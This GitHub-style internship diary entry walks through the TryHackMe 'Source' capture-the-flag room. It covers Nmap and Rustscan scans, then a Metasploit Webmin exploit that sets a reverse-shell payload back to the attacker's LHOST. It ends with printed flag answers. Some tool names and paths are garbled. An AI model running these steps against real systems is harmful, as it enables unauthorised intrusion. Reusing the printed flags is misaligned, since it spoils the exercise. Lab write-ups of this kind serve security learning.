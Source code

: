 # Cyber Security Internship Diary

Welcome back to my Cyber Security Internship Diary! This repository documents my daily learnings and experiences during my internship in the field of Cyber Security. Here, I'll share insights, concepts, and practices that I encounter throughout this journey.

## Day-09: TryHackMe Room ([Source](https://tryhackme.com/r/room/source))

Today, I explored several new tools and concepts while working through a TryHackMe room. Here are the key learnings:

### 1. Rustscan
Rustscan is a fast port scanner that is designed to quickly scan for open ports on a target machine. It uses the Rust programming language, which provides both speed and reliability.

### 2. Metasploit
Metasploit is a powerful penetration testing framework that helps security professionals identify and exploit vulnerabilities in various systems. It offers a wide range of tools and exploits that can be used to simulate real-world attacks.

### 3. MFConsole (Usage Example)
MFConsole is the command-line interface for Metasploit. It allows users to interact with the Metasploit framework and perform various tasks such as launching exploits and running auxiliary modules.

**Usage Example:**
MFConsole can be used to deploy payloads in scenarios such as ransomware attacks or other malicious activities. For instance, an attacker might use Metasploit to deliver a ransomware payload that encrypts files on the target machine, demanding a ransom for decryption.

### 4. RHOSTS & LHOST
- **RHOSTS:** This stands for "Remote Hosts" and refers to the IP address(es) of the target machine(s) that you are attacking. It tells Metasploit which machine(s) to direct the exploit towards.
  
- **LHOST:** This stands for "Local Host" and refers to the IP address of the attacker's machine. It is used to receive the connection back from the target machine once the payload has been executed.

### 5. Web-Extension Hack-Tools
Hack-Tools is a web extension that provides a wide range of tools for web penetration testing. It includes features such as encoding/decoding, IP address lookup, and various other utilities that are useful for web security assessments.

### 6. Nmap vs. Rustscan

| Feature        | Nmap                                      | Rustscan                               |
|----------------|-------------------------------------------|----------------------------------------|
| Speed          | Slower due to comprehensive scanning      | Very fast, designed for quick scans    |
| Flexibility    | Highly flexible with many options         | Less flexible, focuses on speed        |
| Programming    | Written in C                              | Written in Rust                        |
| Usage          | Widely used for detailed network analysis | Best for quick port scanning           |
| Installation   | Available on most systems                 | Requires installation of Rust          |

### Here is how i did the CTF 

#### Starting with the setting up the openvpn with the room if you don't know how to setup the openvpn then follow this [Openvpn-setup](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-07/README.md).
After that i have learned a new and cool way to store the to store the ip address of the machine given to us by the tryhackme
```
sudo nano /etc/hosts
ip address  source.com

```
Now we have kept the ip in a very cool way lets nmap the site so we can get the deatils 
```
 sudo nmap -Pn -p- -sV --script vuln -vv -oN noping-sv-sc-source.txt source.com

```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-09/nmap%20scan.png?raw=true)

When you try this you will know that it is taking a long time we can do a short alternative download rustscan. Download this only from this site their are malicous code on the internet [Rustscan](https://github.com/RustScan/RustScan/releases/download/2.2.3/rustscan_2.2.3_amd64.deb)
after then we run the command 
```
 sudo rustscan -a source.com -- --script vuln -oN rustscan-sv-sc-source.txt

```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-09/rustscan-report.png?raw=true)

But the problem with the rustscan is that it only gives us the port avaliable as fast as possible but it doesn not provide us the services running on that port. So we need the nmap for this 
```
 sudo nmap -p(port no.) -sV source.com
  
```
After we get the service search the exploit on the exploitdb 

We use Metasploit for the futher the nessary commands for the further excutions are listed below
```
 msfconsole

```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-09/msfconsole.png?raw=true)
```
search Webmin

```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-09/search%20webmin.png?raw=true)
```
use 7
show options
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-09/use7-show-option.png?raw=true)
```
set RHOSTS 10.10.180.246
set LHOST 10.17.88.92
set LPORT 5566
show options
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-09/Rhosts.png?raw=true)

Now after all the above the things do these final things one after anothers 
```
exploit
set AutoCheck false
show payloads (select the payload with no. 41)
set payload cmd/unix/reverse
set SSL true
show options 
```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-09/SSL%20true.png?raw=true)

After all above things now just put this command and then hit enter.
``` exploit ```
![](https://github.com/Heartking-2324/Cybersecurity-90days_notes/blob/main/Day-09/exploit.png?raw=true)
After this enter the following commands 
```
python -c 'import pty; pty.spawn("/bin/bash")'
cd
ls
cat root.txt

```

After this lets find the user.txt 
```
cd /ho
ls
cd /dark
ls
cat user.txt
```
# Task1 
### Answer the questions below
#### user.txt
``` THM{SUPPLY_CHAIN_COMPROMISE} ```
#### root.txt
``` THM{UPDATE_YOUR_INSTALL} ```
## Conclusion
Today, I delved into several advanced tools and concepts that are crucial for penetration testing and cyber security. These tools, including Rustscan and Metasploit, along with their various features and commands, are invaluable for any security professional. 

Stay tuned for more updates and insights from my ongoing journey in the world of Cyber Security!

